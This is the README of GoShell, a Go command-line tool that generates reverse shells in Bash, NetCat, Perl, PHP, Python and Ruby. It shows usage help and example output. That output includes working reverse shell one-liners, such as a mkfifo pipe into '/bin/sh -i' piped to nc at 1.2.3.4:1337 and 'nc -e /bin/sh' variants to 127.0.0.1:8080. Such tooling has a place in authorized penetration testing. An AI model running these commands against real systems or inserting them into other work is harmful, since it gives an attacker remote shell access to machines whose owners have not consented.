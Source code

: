 # GoShell
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com) [![forthebadge](https://forthebadge.com/images/badges/you-didnt-ask-for-this.svg)](https://forthebadge.com)

Generate reverse shells in command line.

## Usage
```
USAGE:
   goshell [global options] command [command options] [arguments...]

COMMANDS:
   bash     Generate a Bash reverse shell
   nc       Generate NetCat reverse shells
   perl     Generate a Perl reverse shell
   php      Generate a PHP reverse shell
   py       Generate a Python reverse shell
   ruby     Generate a Ruby reverse shell
   help, h  Shows a list of commands or help for one command

COMMAND OPTIONS:
   --ip value    (default: "127.0.0.1")
   --port value  (default: "8080")
   --help, -h    show help (default: false)

GLOBAL OPTIONS:
   --help, -h  show help (default: false)
```

## Examples
```
> ./goshell bash -ip 1.2.3.4 -port 1337                                                                                                            ~/dev/go/goshell
GoShell - (c)2020 - ezekiel
Note that those shells may not work on your target !

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.2.3.4 1337 >/tmp/f

> ./goshell nc                                                                                                                                 ~/dev/go/goshell
GoShell - (c)2020 - ezekiel
Note that those shells may not work on your target !

#1: nc -e /bin/sh 127.0.0.1 8080
#2: /bin/sh | nc 127.0.0.1 8080
#3: rm -f /tmp/p; mknod /tmp/p p && nc 127.0.0.1 8080 0/tmp/p
```